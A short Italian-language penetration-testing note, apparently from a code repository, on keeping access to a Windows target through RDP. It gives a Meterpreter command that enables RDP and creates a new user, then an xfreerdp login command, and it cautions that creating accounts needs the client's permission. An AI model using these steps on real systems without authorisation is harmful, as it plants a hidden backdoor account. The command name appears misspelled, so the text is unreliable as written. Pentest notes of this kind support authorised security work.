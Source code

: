 
# Peristenza su Windows tramite RDP
Questo tipo di persistenca crea un account con rdp abilitato quindi se non si dovesse avere il permesso dal cliente di poter creare utenti sul target, non dobbiamo farlo. <br>
Dopo aveer ottenuto una sessione meterpreter, usiamo il comando: 
```bash
run getui -e -u <nuovoUtente> -p <nuovaPassword>
```
questo comando serve sia per abilitare che per verificare che RDP sia abilitato sul target in modo che se dovesse creare un utente, sarà abilitato e se non lo dovesse creare, sarà disabilitato. <br> 
per poter accedere al nuovo utente creato usando rdp usiamo il comando: 
```bash
xfreerdp /u:<utente> /p:<password> /v:<IP>
```
